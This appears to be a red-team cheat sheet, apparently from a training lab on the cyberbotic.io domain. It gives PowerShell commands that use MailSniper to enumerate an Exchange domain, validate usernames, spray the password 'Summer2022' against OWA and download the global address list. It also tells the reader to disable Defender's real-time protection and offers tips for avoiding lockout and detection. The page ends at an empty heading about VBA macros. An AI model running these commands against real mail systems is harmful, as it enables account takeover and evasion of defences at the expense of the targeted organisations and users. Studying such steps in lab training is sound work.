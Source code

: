 ### **Password Spraying**

✅ Disable Defender’s real-time protection before using MailSniper.

### Commands

**Import MailSniper into PowerShell**

```powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

**Enumerate the domain to retrieve NetBIOS**

```powershell
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

**Validate usernames from a list**

```powershell
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

**Perform password spraying on valid usernames**

```powershell
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

**Download the Global Address List (optional post-attack)**

```powershell
powershell Get-GlobalAddressList -ExchHostname mail.cyberbotic.io
```

**OPSEC Considerations**

- Avoid multiple attempts in a short time to prevent triggering account lockout policies.

- Plan carefully to minimize detection.

---

### Visual Basic for Applications (VBA) Macros
